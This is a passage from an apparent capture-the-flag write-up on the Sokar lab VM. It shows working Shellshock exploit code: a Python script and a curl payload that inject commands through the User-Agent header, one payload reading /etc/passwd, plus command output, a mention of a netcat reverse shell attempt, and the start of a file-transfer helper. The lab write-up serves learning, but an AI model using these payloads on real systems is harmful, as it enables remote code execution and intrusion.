 Yay. I was now able to execute commands as `apache`. This allowed me to enumerate a great deal of the machine with relative ease.

## making life easier
Of course, constructing the curl request and header for every command that I wanted to run was starting to become boring really quickly. So, I slapped together some python that will accept an argument and execute the command (called `shock.py`):

```python
#!/usr/bin/python

# Sokar Shellshock Command Execution
# 2015 Leon Jacobs

import requests
import sys

if len(sys.argv) < 2:

    print " * Usage %s <cmd>" % sys.argv[0]
    sys.exit(1)

# vuln@ curl -i -X OPTIONS -H "User-Agent: () { :;};echo;/bin/cat /etc/passwd" "http://192.168.217.163:591/cgi-bin/cat"
command = sys.argv[1].strip()
print " * Executing %s\n" % command

# prepare the sploit header
headers = { "User-Agent": "() { :;};echo;%s" % command }
print requests.get("http://192.168.217.163:591/cgi-bin/cat", headers=headers).text.strip()
```

Using the above script, I could now just do `python shock.py "/usr/bin/id"`:

```bash
leonjza@kali/sokar $ python shock.py "/usr/bin/id"
 * Executing /usr/bin/id

uid=48(apache) gid=48(apache) groups=48(apache)
```

During the initial enumeration phase, I tried to build myself a reverse shell. I confirmed that `netcat` was available and that `apache` was allowed to execute it, however, all of my attempts failed. `SELinux` was disabled so that was not the problem. Eventually I started wondering about egress fire-walling and decided that it was time for a outbound port scan!

I was able to write to `/tmp`, but for some reason I was having a really hard time getting newlines and quotes escaped so that I could essentially `echo <script source> >> /tmp/port_scan.py`. Eventually I resorted to writing a helper called `transfer.py` that was used to copy files over from my local Kali Linux install to the Sokar VM. In the long run, this made it really easy to copy scripts and tools over to Sokar:

```python
#!/usr/bin/python

# Sokar Shellshock File Transfer
# 2015 Leon Jacobs

import requests
import sys
import os
import binascii

def do_command(command):

    headers = { "User-Agent": "() { :;};echo;%s" % command }
    r = requests.options("http://192.168.217.163:591/cgi-bin/cat", headers=headers)
```